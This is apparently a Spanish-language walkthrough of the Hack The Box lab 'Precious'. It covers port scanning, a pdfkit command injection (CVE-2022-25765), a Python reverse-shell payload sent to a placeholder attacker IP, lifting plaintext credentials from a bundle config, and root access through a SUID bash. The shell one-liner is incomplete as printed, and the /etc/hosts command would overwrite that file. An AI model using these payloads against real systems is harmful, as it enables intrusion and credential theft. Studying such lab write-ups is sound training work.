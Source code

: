 ```yaml
---
title: Precious HTB
date: 2023-02-20
---
```

#linux #ruby #web 

## Reconocimiento

Comenzaremos comprobando que la máquina se encuentra activa con `ping`, y en base al ttl, podemos sospechar que se trata de una máquina **linux**. A continuación lanzamos [[nmap]] en busca de puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn <ip>
```
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Vemos únicamente dos puertos, con *ssh* y *http*, lo que nos hace pensar que se trata de una página web. Volvemos a lanzar nmap para tratar de detectar las versiones y más info. de los servicios de cada puerto:

```bash
sudo nmap -sCV -p22,80 -n -Pn 10.10.11.189
```
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Comprobamos que en efecto se trata de un sistema linux, con *Debian*. A continuación trataremos de ver si hay algo interesante en la dirección que se nos reporta (http://precious.htb/). Una vez añadido al `/etc/hosts` (`sudo echo <ip> precious.htb > /etc/hosts`), accedemos a la página que contiene únicamente un formulario en el que se nos pide una url para supuestamente convertirla a pdf. Tratamos de montarnos un servidor http con python3 y pasarle la url de nuestro servidor:

```bash
sudo python3 -m http.server 80
```

La páguina nos convertirá la página por defecto de nuestro servidor en pdf. Lo descargamos y vemos los metadatos con `exiftool`:

```bash
exiftool page.pdf
```
```bash
ExifTool Version Number         : 12.16
File Name                       : page.pdf
Directory                       : .
File Size                       : 17 KiB
File Modification Date/Time     : 2023:04:06 10:03:51+02:00
File Access Date/Time           : 2023:04:06 10:04:13+02:00
File Inode Change Date/Time     : 2023:04:06 10:04:08+02:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

Vemos que la página está utilizando `pdfkit` en su versión `0.8.6`. Con una breve búsqueda por internet descubrimos que esta versión es vulnerable.

## Explotación

La vuln, el [CVE-2022-25765](https://www.cve.org/CVERecord?id=CVE-2022-25765) , nos permite incluir comandos de shell en la url en caso de que esté mal sanitizada, así que con el servidor python de antes y haciendo uso de burpsuite, podemos tratar de mandar una petición con una inyección en el parámetro `url`:

```url
http://NUESTRA-IP:PORT/?name=%20`ls`
```

Y en el server de python recibimos:

```python
10.10.11.189 - - [06/Apr/2023 15:53:04] "GET /?name=%20app%0Aconfig%0Aconfig.ru%0AGemfile%0AGemfile.lock%0Apdf%0Apublic HTTP/1.1" 200 -
```

Podemos tratar ahora de ponernos en escucha con netcat:

```bash
nc -lvnp 9090
```

Y mandamos una reverse shell con python:

```bash
http://NUESTRA-IP:PORT/?name=%20`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("NUESTRA-IP",PUERTO));'`
```

Y recibiremos una shell, a la que le aplicaremos un [[Tratamiento de la tty]]. Tras esto comenzaremos a investigar:

```bash
$ whoami
ruby
$ cd 
$ ls
total 28
drwxr-xr-x 4 ruby ruby 4096 Apr  6 03:52 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby 4096 Apr  6 06:37 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
$ cd .bundle
$ ls
config
$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

En el directorio personal de `ruby`, `/home/ruby/`, encontraremos un directorio oculto, `.bundle`, que contiene un archivo `config`, con las credenciales del usuario `henry:Q3c1AqGHtoI0aXAYFH`.

Tras conectarnos por ssh como `henry`, podemos ver un archivo `user.txt` con la flag de usuario (`5264d5870a71a585f0f78412a3a2829e`). Enhorabuena! Ya tienes la flag de usuario!

## Escalada de privilegios

Comenzamos buscando binarios con permisos SUID:

```bash
-bash-5.1$ find / -perm /4000
find: ‘/root’: Permission denied
find: ‘/etc/ssl/private’: Permission denied
find: ‘/etc/audit’: Permission denied
find: ‘/proc/tty/driver’: Permission denied
find: ‘/proc/20914/task/20914/fd/6’: No such file or directory
find: ‘/proc/20914/task/20914/fdinfo/6’: No such file or directory
find: ‘/proc/20914/fd/5’: No such file or directory
find: ‘/proc/20914/fdinfo/5’: No such file or directory
find: ‘/var/spool/cron/crontabs’: Permission denied
find: ‘/var/spool/rsyslog’: Permission denied
find: ‘/var/log/private’: Permission denied
find: ‘/var/log/audit’: Permission denied
find: ‘/var/tmp/systemd-private-7367b6c71dcf42eab5f40c0b40af6953-systemd-logind.service-DAEDvf’: Permission denied
find: ‘/var/lib/private’: Permission denied
find: ‘/var/lib/nginx/body’: Permission denied
find: ‘/var/lib/nginx/uwsgi’: Permission denied
find: ‘/var/lib/nginx/scgi’: Permission denied
find: ‘/var/lib/nginx/fastcgi’: Permission denied
find: ‘/var/lib/nginx/proxy’: Permission denied
find: ‘/var/lib/apt/lists/partial’: Permission denied
find: ‘/var/cache/ldconfig’: Permission denied
find: ‘/var/cache/private’: Permission denied
find: ‘/var/cache/apparmor/c08a2770.0’: Permission denied
find: ‘/var/cache/apt/archives/partial’: Permission denied
find: ‘/lost+found’: Permission denied
find: ‘/tmp/passenger.wBtbK6q/apps.s’: Permission denied
find: ‘/tmp/runtime-ruby’: Permission denied
find: ‘/tmp/systemd-private-7367b6c71dcf42eab5f40c0b40af6953-systemd-logind.service-8CU6Wi’: Permission denied
find: ‘/tmp/vmware-root_496-826451958’: Permission denied
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/bash
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/fusermount
find: ‘/usr/share/nginx/passenger_temp’: Permission denied
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
find: ‘/run/user/1000/systemd/inaccessible/dir’: Permission denied
find: ‘/run/sudo’: Permission denied
find: ‘/run/systemd/unit-root’: Permission denied
find: ‘/run/systemd/inaccessible/dir’: Permission denied
find: ‘/run/initramfs’: Permission denied
find: ‘/sys/kernel/tracing’: Permission denied
find: ‘/sys/kernel/debug’: Permission denied
find: ‘/sys/fs/pstore’: Permission denied
find: ‘/sys/fs/bpf’: Permission denied
```

Vemos que está habilitado el bit suid para el binario `/usr/bin/bash`, por lo que para lograr una sesión como `root` basta con ejecutar:

```bash
/usr/bin/bash -p
```

Ya solo queda acceder a la carpeta `/root` y ver el archivo `root.txt` (`fb65b73a1c034d96f66de5e1cebafcb6`). Enhorabuena! Has resuelto la máquina!